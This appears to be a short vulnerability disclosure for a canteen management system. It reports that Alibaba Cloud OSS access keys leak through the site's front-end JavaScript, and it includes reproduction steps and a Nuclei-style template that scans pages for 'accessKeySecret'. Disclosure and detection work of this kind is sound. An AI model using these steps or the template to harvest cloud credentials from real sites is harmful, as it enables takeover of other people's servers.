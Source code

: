 # Canteen
Recurrence of vulnerabilities
There is a problem with Alibaba Cloud OSS AccessKey leakage in the Xiaoniuyun Canteen Smart Canteen Management System. Attackers can obtain sensitive information and control cloud servers by obtaining the AccessKey
Case reproduction As shown, this is a test site
![image](https://github.com/dubin12345/Canteen/assets/144758348/4fd75650-eaff-4921-bad2-4722dd6521ec)
View the front-end code of the website and find multiple JSs
![image](https://github.com/dubin12345/Canteen/assets/144758348/6b4d9311-3496-47db-9142-32a993678e06)
Splice the front-end JS fields and wait for multiple front-end static page URLs

![image](https://github.com/dubin12345/Canteen/assets/144758348/91afe9dc-3350-4d7a-8690-65792f3b51dd)

Detect POC：

id: xiaoniuali-key
 
info:
  name: xiaoniuali-key
  author: dubin
  severity: critical
  tags: xiaoniu
 
requests:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        words:
          - "accessKeySecret"

      ![image](https://github.com/dubin12345/Canteen/assets/144758348/f105de82-4b4d-4caf-9048-fef893a44627)
    Accessing the vulnerable URL and finding the accessKeyId and accessKeySecret
    ![image](https://github.com/dubin12345/Canteen/assets/144758348/7493b58c-7982-4ab2-a3d8-60f908a9212d)
    
    ![image](https://github.com/dubin12345/Canteen/assets/144758348/84137d38-253b-44be-8080-75882a318894)







